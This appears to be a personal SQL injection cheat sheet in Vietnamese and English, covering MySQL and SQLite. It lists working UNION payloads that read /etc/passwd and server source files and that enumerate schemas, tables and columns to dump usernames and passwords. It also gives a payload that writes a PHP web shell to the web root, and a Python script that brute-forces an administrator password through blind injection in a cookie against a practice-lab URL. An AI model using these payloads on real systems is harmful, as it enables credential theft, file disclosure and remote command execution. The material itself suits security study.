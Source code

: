 # MY SQL INJECTION

## User
`USER()`

## Load_File
- Read system file 

```sql
-1' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Read source code file in server => path apache web ( /var/www/html/...php )
```sql
-1' UNION SELECT 1, LOAD_FILE("/var/www/html/...php"), 3, 4-- -
```

## Version
`@@version`

## Database 
```sql
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='devss'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name

## Write file 
- SELECT .. INTO OUTFILE 'path_file' statement can be used to write data from select queries into file
Ex1: select queries usernamae in table users and save output into /var/www/html/username file
`SQL query :`
```sql
select user from users into outfile '/var/www/html/username';
```

`Cmd`
```cmd
cat /var/www/html/username 
>
1. admin
2. user1
3. user2
```
Ex2: 
```sql
SELECT 'hello' INTO OUTFILE '/var/test.txt';
```

## Web shell
```sql
' union select 1,'<?php system($_REQUEST[0]); ?>',3 ,4 into outfile '/var/www/html/shell.php'-- - 
```

## Blind 
```py
import string
import requests

url='https://acfb1fcd1f5d9cb4c0067543004e007f.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select '1' from users where username='administrator' and substring(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if 'Welcome' in r.text :
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			exit()
```


# SQLite

## Version
`select sqlite_version();`

## Database 
```sql
SELECT sql FROM sqlite_schema
```

## Table name
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Column name
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

 
